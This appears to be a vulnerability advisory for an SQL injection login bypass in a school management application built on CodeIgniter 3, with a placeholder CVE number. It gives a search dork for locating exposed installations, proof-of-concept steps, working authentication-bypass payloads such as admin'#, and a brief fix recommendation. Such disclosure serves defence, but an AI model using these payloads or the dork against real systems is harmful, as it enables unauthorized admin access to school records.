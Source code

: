 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-XXXXX](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-XXXXX)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-XXXXX) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and password as `xyz`
* Step 3 - Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
